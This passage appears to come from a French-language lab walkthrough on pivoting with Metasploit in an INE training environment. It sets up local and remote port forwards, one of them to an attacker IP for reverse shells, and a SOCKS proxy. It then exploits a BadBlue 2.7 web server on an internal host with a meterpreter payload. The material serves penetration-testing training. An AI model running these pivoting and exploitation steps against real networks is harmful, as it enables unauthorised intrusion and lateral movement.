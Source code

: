 
## 🌉 **Phase 4 : Techniques de forwarding**

### **4.1 Port forwarding local**
```bash
# Retour à la session pivot
sessions -i 1

# Forward port 80 de demo2 vers port local 1234
portfwd add -l 1234 -p 80 -r <IP_demo2>
portfwd list

# Test depuis l'attaquant
nmap -sV -sS -p 1234 localhost
```

### **4.2 Port forwarding remote**
```bash
# Forward port local vers machine interne
portfwd add -R -l 4444 -p 4444 -L <attacker_ip>

# Useful pour reverse shells
```

### **4.3 SOCKS proxy (avancé)**
```bash
# Configuration proxy SOCKS
use auxiliary/server/socks_proxy
set SRVPORT 1080
run

# Configuration dans l'environnement
export http_proxy=socks://127.0.0.1:1080
export https_proxy=socks://127.0.0.1:1080
```

---

## 🎯 **Phase 5 : Exploitation de la cible finale**

### **5.1 Identification du service sur la cible finale**
```bash
# Via le port forward configuré
nmap -sV -sS -p 1234 localhost

# Résultat : BadBlue HTTPd 2.7
# Recherche d'exploits
searchsploit badblue 2.7
```

### **5.2 Configuration de l'exploit pour la cible finale**
```bash
# Nouvel exploit module
background
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS demo2.ine.local
exploit
```
